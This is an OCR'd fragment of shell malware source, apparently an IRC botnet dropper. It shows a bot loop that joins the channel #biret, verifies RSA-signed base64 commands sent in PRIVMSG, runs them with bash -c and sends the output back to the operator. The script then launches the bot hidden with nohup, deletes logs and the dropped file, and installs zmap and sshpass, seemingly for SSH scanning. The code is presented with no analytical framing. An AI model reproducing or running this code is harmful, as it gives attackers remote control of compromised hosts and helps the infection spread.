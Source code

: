 	# Main loop
	while [ true ]; do
		eval "read msg_in <&3;"

		if [[ ! "$?" -eq 0 ]] ; then
			break
		fi

		if  [[ "$msg_in" =~ "PING" ]] ; then
			printf "PONG %s\n" "${msg_in:5}";
			eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
			if [[ ! "$?" -eq 0 ]] ; then
				break
			fi
			sleep 1
			eval 'printf "JOIN #biret\r\n" >&3;'
			if [[ ! "$?" -eq 0 ]] ; then
				break
			fi
		elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then
			privmsg_h=$(echo $msg_in\| cut -d':' -f 3)
			privmsg_data=$(echo $msg_in\| cut -d':' -f 4)
			privmsg_nick=$(echo $msg_in\| cut -d':' -f 2 \| cut -d'!' -f 1)

			hash=`echo $privmsg_data \| base64 -d -i \| md5sum \| awk -F' ' '{print $1}'`
			sign=`echo $privmsg_h \| base64 -d -i \| openssl rsautl -verify -inkey /tmp/public.pem -pubin`

			if [[ "$sign" == "$hash" ]] ; then
				CMD=`echo $privmsg_data \| base64 -d -i`
				RES=`bash -c "$CMD" \| base64 -w 0`
				eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;'
				if [[ ! "$?" -eq 0 ]] ; then
					break
				fi
			fi
		fi
	done
done
EOFMARKER

chmod +x /tmp/$BOT
nohup /tmp/$BOT 2>&1 > /tmp/bot.log &
rm /tmp/nohup.log -rf
rm -rf nohup.out
sleep 3
rm -rf /tmp/$BOT

NAME=`mktemp -u 'XXXXXXXX'`

date > /tmp/.s

apt-get update -y --force-yes
apt-get install zmap sshpass -y --force-yes
